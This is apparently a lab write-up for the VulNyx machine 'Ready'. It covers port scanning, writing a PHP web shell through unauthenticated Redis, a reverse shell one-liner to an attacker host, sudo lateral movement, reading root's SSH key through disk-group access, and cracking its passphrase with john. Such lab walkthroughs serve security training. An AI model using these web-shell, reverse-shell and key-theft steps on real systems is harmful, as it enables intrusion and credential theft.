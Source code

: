 ## Recon
4 open ports - ssh, http, http and redis
22, 80, 8080, 6379
```
$ nmap 192.168.174.128 -sVC --min-rate 1000 -p- -v -oN ready.fulltcp
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 51:f9:f5:59:cd:45:4e:d1:2c:06:41:3b:a6:7a:91:19 (RSA)
|   256 5c:9f:60:b7:c5:50:fc:01:fa:37:7c:dc:16:54:87:3b (ECDSA)
|_  256 04:da:68:25:69:d6:2a:25:e2:5b:e2:99:36:36:d7:48 (ED25519)
80/tcp   open  http    Apache httpd 2.4.54 ((Debian))
|_http-server-header: Apache/2.4.54 (Debian)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Apache2 Test Debian Default Page: It works
6379/tcp open  redis   Redis key-value store 6.0.16
8080/tcp open  http    Apache httpd 2.4.54 ((Debian))
|_http-title: Apache2 Test Debian Default Page: It works
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.54 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# 80 Recon
fuzz finds nothing

# 8080 Recon
absolutely no directory as well.

# 6379 Recon
redis version 6.0.16
versions <=5.0.5 is vuln to RCE, so this version isnt vulnerable.
We are able to retrieve information with the INFO command implying redis was setup with anon access, no keyspaces to dump.
```shell
192.168.174.128:6379> CONFIG GET dir
1) "dir"
2) "/root"
192.168.174.128:6379> INFO keyspace
# Keyspace
192.168.174.128:6379> 
```
We have 2 web services running, as well as ssh so we can try 2 vectors :
- try to gen an ssh key and see if we can add the public key to authorized keys and ssh in with the private key pair.
- Try to create a webshell and write to the web root and use it to receive a reverse shell.

with the first vector, the current directory where redis runs doesnt reveal a user whom redis runs in the context of or their home directory so we cant tell a name and a path to which we can add the key.

Trying to upload a webshell, we know an apache server is running, so set the web root to that of an apache server.
```shell
192.168.174.128:6379> CONFIG SET dir /var/www/html/
OK
192.168.174.128:6379> CONFIG SET dbfilename rami.php
OK
192.168.174.128:6379> SET test "<?php SYSTEM($_REQUEST['cmd']); ?>"
OK
192.168.174.128:6379> save
OK
```
command execution as a user "ben"
```
┌──(rami㉿zen)-[~/labs/vulnyx/ready]
└─$ curl http://192.168.174.128:8080/rami.php?cmd=id -o /tmp/a
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   158    0   158    0     0   3523      0 --:--:-- --:--:-- --:--:--  3590

┌──(rami㉿zen)-[~/labs/vulnyx/ready]
└─$ cat /tmp/a
REDIS0009�	redis-ver6.0.16�
redis-bits�@�ctime���
�used-mem�pM
 aof-preamble���test"uid=1000(ben) gid=1000(ben) groups=1000(ben),6(disk)
���
   �gqE
```
Send a shell 
```
┌──(rami㉿zen)-[~/labs/vulnyx/ready]
└─$ curl http://192.168.174.128:8080/rami.php?c=php%20-r%20%27%24sock%3Dfsockopen%28%22192.168.174.129%22%2C1337%29%3Bexec%28%22%2Fbin%2Fbash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```

# FootHold
```
┌──(rami㉿zen)-[~/labs/vulnyx/ready]
└─$ ncat -nvlp 1337
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 192.168.174.128:41948.
whoami
ben
python3 -c "import pty;pty.spawn('/bin/bash')"
ben@ready:/var/www/html$ id
id
uid=1000(ben) gid=1000(ben) groups=1000(ben),6(disk)
ben@ready:/var/www/html$ 
```
# Lateral Privesc to another user on host (peter)
sudo privs to run bash as peter with no password
```
ben@ready:/home/ben$ sudo -l
Matching Defaults entries for ben on ready:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ben may run the following commands on ready:
    (peter) NOPASSWD: /usr/bin/bash
ben@ready:/home/ben$ sudo  -u peter /usr/bin/bash
peter@ready:/home/ben$ whoami
peter
```
# Root
Its noticeable that ben belongs to the `disk` group after a group audit 
```shell
peter@ready:/$ groups
peter
peter@ready:/$ groups ben
ben : ben disk
```
members of the disk group can effectively access blocks of storage in the filesystem, we may access the /dev/sda disk which is the primary mount point of the root of theh filesystem and since ssh is running, check if a root ssh is present 
```shell
ben@ready:/home/ben$ lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
sda      8:0    0    8G  0 disk 
├─sda1   8:1    0    7G  0 part /
├─sda2   8:2    0    1K  0 part 
└─sda5   8:5    0  975M  0 part [SWAP]
ben@ready:/home/ben$ debugfs /dev/sda1
debugfs 1.46.2 (28-Feb-2021)
debugfs:  cat /root/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,02E266E7A66462FE
<SNIP>
```
tried to login but the key is passphrased, crack that
```shell
┌──(rami㉿zen)-[~/labs/vulnyx/ready]
└─$ ssh2john root.key  > rootkey.hash

┌──(rami㉿zen)-[~/labs/vulnyx/ready]
└─$ john -w=/opt/sc/rockyou.txt rootkey.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
shelly           (root.key)     
1g 0:00:00:00 DONE (2024-04-01 22:24) 16.66g/s 16533p/s 16533c/s 16533C/s marie1..babyface
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Login locally as root, because for some reason Im having key issues with ssh from my machine
```shell
ben@ready:/home/ben$ chmod 600 /tmp/root.key 
ben@ready:/home/ben$ cd /tmp
ben@ready:/tmp$ ls
groupy.sh  root.key
ben@ready:/tmp$ ssh root@localhost -i root.key 
The authenticity of host 'localhost (::1)' can't be established.
ECDSA key fingerprint is SHA256:UhrBwIzhzz8kDj1Kk9SUuU6EdhiY9wLrwX8suu6BZlI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'localhost' (ECDSA) to the list of known hosts.
Enter passphrase for key 'root.key': 
Linux ready 5.10.0-16-amd64 #1 SMP Debian 5.10.127-1 (2022-06-30) x86_64
Last login: Wed Jul 12 18:22:32 2023
root@ready:~# whoami
root
root@ready:~# id
uid=0(root) gid=0(root) grupos=0(root)
root@ready:~# 
```
